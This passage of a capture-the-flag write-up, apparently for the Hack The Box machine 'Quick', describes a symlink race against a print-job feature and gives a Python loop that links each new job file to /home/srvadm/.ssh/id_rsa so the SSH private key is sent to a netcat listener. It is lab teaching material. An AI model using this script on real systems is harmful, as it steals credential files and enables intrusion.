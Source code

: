 Once we press the print in the `Actions` , we need to go `job.php` from where it ask for  `Bill Details` and this is the main thing Once you Press the `Print` button it created a file in the format `date("Y-m-d_H:i:s")` and placed it in `/var/www/jobs/`and gives it `chmod 0777` permission to it and wait `sleep 0.5` and then it print out what we send from the web to the Printer which is our port listening in `9100`

So I made a simple python script, what it do is, it keeps on list the directory `/var/www/jobs` and once a file created here  it will symlink the `/var/www/jobs` file to the `srvadm` private keys. So when `file_get_contents` will print out the private key.

```python
#!/bin/python3

import os

while True:
	jobs = os.listdir("/var/www/jobs")

	if len(jobs) <= 0:
		continue
	for job in jobs:
		print(jobs)
		os.system(f"ln -sf /home/srvadm/.ssh/id_rsa /var/www/jobs/{jobs[0]}")
```

Started `Job` in the Actions

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2018.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2018.png)

Make sure your python script is running and netcat too and click `Print`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2019.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2019.png)
